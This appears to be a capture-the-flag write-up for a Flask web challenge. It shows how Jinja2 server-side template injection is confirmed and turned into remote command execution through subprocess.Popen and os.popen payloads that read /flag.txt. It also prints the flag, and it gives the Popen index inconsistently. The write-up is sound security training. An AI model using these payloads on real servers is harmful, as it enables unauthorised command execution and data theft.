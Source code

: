 # Frances Allen

## Description
> Frances Elizabeth Allen (August 4, 1932 – August 4, 2020) was an American computer scientist and pioneer in the field of optimizing compilers. Allen was the first woman to become an IBM Fellow, and in 2006 became the first woman to win the Turing Award. Her achievements include seminal work in compilers, program optimization, and parallelization. She worked for IBM from 1957 to 2002 and subsequently was a Fellow Emerita. - Wikipedia Entry

> Chal: Build your best attack against this webapp and inspire the first woman to win the Turing Award

### Challenge URL 
[Challenge Link](https://cyberheroines-web-srv5.chals.io/)

## Solution
* Using the `Wappalyzer` browser extension we can see that the page is using `flask`.
* Maybe SSTI?
* SSTI: A **server-side template injection** occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
<br><br>

* We can confirm SSTI using `{{7*7}}`

![ssti1](image.png)

* As `{{7*7}}` returns `49` we can confirm that the page is vulnerable to SSTI and is using the `Jinja2` template engine.
<br><br>

![ssti flowchart](image-5.png)

**Forming the payload**
* call the current class instance using `__class__`, call this on an empty string
    ```
    {{ ''.__class__ }}
    ```
* Use `__mro__` to climb up the inherited object tree:
    ```
    {{''.__class__.__mro__}}
    ```

* To access the second property in the tuple, use `1`:
    ```
    {{''.__class__.__mro__[1]}}
    ```

* to climb down the object tree, we use `__subclasses__`:
    ```
    {{''.__class__.__mro__[1].__subclasses__()}}
    ```
![subclasses](image-3.png)
* Copy the output to a text editor and search for `subprocess` or `os` and its index.
![Alt text](image-4.png)
* We see that `subprocess.Popen` is at index `353`
* As it is a list, we can access it using the index. Accessing `subprocess` module
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]}}
    ```
* Now that we have accessed the `subprocess` module, we can use it to execute commands and read files on the server.
* Listing files
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('ls', shell=True, stdout=-1).communicate()}}
    ```
<br><br>

* Listing files in the root (`/`) directory, we can see a `flag.txt` file.
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('ls /', shell=True, stdout=-1).communicate()}}
    ```
    ![flag.txt](image-1.png)
<br><br>
* Reading `flag.txt` contents
    ```
    {{''.__class__.__mro__[1].__subclasses__()[352]('cat /flag.txt', shell=True, stdout=-1).communicate()}}
    ```
    ![flag](image-2.png)
    
### Final Payload
```
{{''.__class__.__mro__[1].__subclasses__()[352]('cat /flag.txt', shell=True, stdout=-1).communicate()}}
```
### Alternative Payload
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

### FLAG
```
chctf{th3re_W4s_n3v3r_a_d0ubt_th4t_1t_w4s_1mp0rt4nt}
```


## References
* [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)